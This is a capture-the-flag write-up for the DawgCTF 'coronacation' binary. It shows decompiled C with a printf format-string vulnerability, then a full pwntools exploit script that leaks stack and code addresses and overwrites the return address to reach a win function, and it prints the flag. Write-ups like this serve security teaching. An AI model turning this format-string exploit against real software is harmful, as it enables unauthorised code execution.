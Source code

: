NOTE: To solve this challenge i worked with my teammate Enrico. He wrote the exploit (python 2) first and got the flag. 
In my writeup i put an optimized exploit for python 3.

Play game:
```c
__int64 play_game()
{
  __int64 result; // rax
  char s; // [rsp+0h] [rbp-40h]

  puts("Welcome to this choose your own adventure game!");
  puts("You're President Ronald Drump and are tasked with leading the nation through this crisis.");
  puts("So what do you want to do?");
  puts("1. Close the borders.");
  puts("2. Tell everyone not to panic. It's just the Fake News media freaking out.");
  fgets(&s, 50, _bss_start);
  printf("You chose: ", 50LL);
  printf(&s);
  if ( s == 49 )
    return close_borders();
  result = 50 - (unsigned int)(unsigned __int8)s;
  if ( s == 50 )
    result = no_panic();
  return result;
}
```
`Close borders` and `no panic` functions contains the same instruction, i used close borders. 

Close borders:
```c
__int64 close_borders()
{
  __int64 result; // rax
  char s; // [rsp+0h] [rbp-40h]

  puts("\nSo we closed our borders. Weren't we doing that anyway with the wall?");
  puts("It's still spreading within our borders what do we do now?");
  puts("1. Reassure everyone the country can handle this. Our healthcare system is the best. Just the greatest.");
  puts("2. Make it a national emergency. Show the people we don't need Bernie's healthcare plan.");
  fgets(&s, 50, _bss_start);
  printf("You chose: ", 50LL);
  printf(&s);
  if ( s == 49 )
    return lose3();
  result = 50 - (unsigned int)(unsigned __int8)s;
  if ( s == 50 )
    result = lose4();
  return result;
}
```

Checksec:
```shell
[*] '/home/marco/Desktop/umbccd/coronacation/coronacation'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

In order to call win function, we need two memory leak to bypass PIE / ASLR.
We used te first format string (play game function) to leak the rbp (stack section leak) and return address(.text section address).
Then with the second format string (in `close_border`), we overwrite the return address with win address.

Exploit:
```python
from pwn import *

#p = remote('ctf.umbccd.io', 4300)
p = process('./coronacation')
print(p.recvuntil('out.\n').decode())
payload = (('1 ').encode())
payload += (('%14$p %15$p').encode())
p.sendline(payload)
print(p.recvuntil('chose: 1 ').decode())

stm = p.recvuntil('\n').decode()
rbp = int(stm.replace('\n', "").split(' ')[0], 16)
ret_stack = rbp-0x8
ret = int(stm.replace('\n', "").split(' ')[1], 16)

win = ret-0x31f
towrite = win & 0xffff
print('to write: ', (towrite))
print('Leaked base pointer: ', hex(rbp), 'stack address return pointer: ', hex(ret_stack))
print('leaked return address: ', hex(ret), ' win function at: ', hex(win))
print(p.recvuntil('plan.').decode())

padding = '0'*(8-len(str(towrite))) + str(towrite)

payload2 = ("%" + padding + "lx%8$hn").encode()
payload2 += p64(ret_stack)
print(payload2)
p.sendline(payload2)
print(p.recvuntil('}'))

```

# FLAG
`DawgCTF{st@y_Th3_f@ck_h0m3}`
